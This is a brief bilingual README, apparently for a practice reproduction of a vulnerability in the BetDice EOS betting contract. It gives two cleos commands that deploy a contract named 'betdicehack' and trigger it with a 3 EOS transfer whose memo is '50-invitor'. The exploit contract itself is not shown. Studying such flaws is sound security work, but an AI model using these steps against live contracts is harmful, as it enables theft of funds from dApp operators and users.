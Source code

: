 # Introduction(简介)
betdic合约漏洞实践

# Operation(操作)
```
cleos set contract contractaccount betdicehack
//下面的EOS转账会调用contractaccount这个智能合约的transfer方法
cleos push action eosio.token transfer '["testaccount", "contractaccount", "3.0000 EOS", "50-invitor"]' -p testaccount
```
